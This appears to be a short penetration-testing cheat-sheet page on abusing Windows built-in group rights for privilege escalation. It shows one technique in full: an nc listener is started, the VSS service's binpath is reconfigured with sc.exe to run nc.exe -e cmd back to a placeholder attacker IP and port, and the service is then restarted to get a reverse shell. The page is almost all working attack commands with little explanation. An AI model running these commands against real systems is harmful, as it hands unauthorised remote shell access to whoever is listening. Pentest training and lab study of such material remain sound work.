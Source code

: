 ```yaml
---
title: "Built-in Group"
date: 2024-7-24
tags: ["built-in group", "active driectory", "ad", "Windows", "privesc"]
---
```


#### Abuse #1. Modify Service Path

<div>

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

</div>

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
# Assumed nc.exe is uploaded
sc.exe config VSS binpath="C:\ProgramData\nc.exe -e cmd <LOCAL_IP> <LOCAL_PORT>"
```

```console
# Stop service
sc.exe stop VSS
```

```console
# Start service
sc.exe start VSS
```

</div>

{{< /tabcontent >}}

<br>